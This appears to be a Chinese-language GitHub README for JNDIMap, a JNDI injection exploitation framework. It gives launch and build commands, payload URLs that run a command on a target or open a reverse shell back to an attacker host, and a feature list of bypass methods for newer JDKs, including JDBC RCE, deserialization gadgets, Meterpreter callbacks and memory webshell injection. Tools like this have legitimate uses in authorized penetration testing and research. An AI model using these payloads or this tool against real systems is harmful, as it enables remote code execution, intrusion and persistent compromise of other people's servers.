 ## JNDIMap <https://github.com/X1r0z/JNDIMap>
<!--auto_detail_badge_begin_0b490ffb61b26b45de3ea5d7dd8a582e-->
![Language](https://img.shields.io/badge/Language-Java-blue)
![Author](https://img.shields.io/badge/Author-X1r0z-orange)
![GitHub stars](https://img.shields.io/github/stars/X1r0z/JNDIMap.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V0.0.3-red)
![Time](https://img.shields.io/badge/Join-2025098-green)
<!--auto_detail_badge_end_fef74f2d7ea73fcc43ff78e05b1e7451-->



<p align="center">
JNDIMap 是一个强大的 JNDI 注入利用框架, 支持 RMI、LDAP 和 LDAPS 协议, 包含多种高版本 JDK 绕过方式
</p>
<p align="center">简体中文 | <a href="README.en.md">English</a></p>
</p>

## 🚀 快速上手

在 [Release](https://github.com/X1r0z/JNDIMap/releases) 页面下载 JNDIMap, 运行时传入 `-i` 参数指定外部 IP

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

在目标机器上执行命令或反弹 Shell

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 功能特性

- DNSLog
- 命令执行
- 反弹 Shell
- Meterpreter 上线
- 加载自定义 Java 字节码
- 内存马注入 (基于 [MemShellParty](https://github.com/ReaJason/MemShellParty))
- 高版本 JDK 绕过
  - BeanFactory 绕过 (Tomcat/Groovy/XStream, etc.)
  - JDBC RCE (MySQL/PostgreSQL/H2/Derby)
  - Tomcat Blind XXE
- LDAP 反序列化 (包含常用 Gadget)
- Nashorn JS 自定义 JNDI Payload
- LDAP trustSerialData 绕过
- JShell Payload 绕过 (可替代 Nashorn JS Engine)
- UTF-8 Overlong Encoding 绕过


## ⚙️ 编译

[Releases](https://github.com/X1r0z/JNDIMap/releases) 的版本可能存在滞后, 推荐在使用时拉取源码自行编译 (基于 JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 参考 & 致谢

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

[https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/)

[https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html](https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html)

[https://github.com/Whoopsunix/utf-8-overlong-encoding](https://github.com/Whoopsunix/utf-8-overlong-encoding)

<!--auto_detail_active_begin_e1c6fb434b6f0baf6912c7a1934f772b-->
## 项目相关


## 最近更新

<!--auto_detail_active_end_f9cf7911015e9913b7e691a7a5878527-->
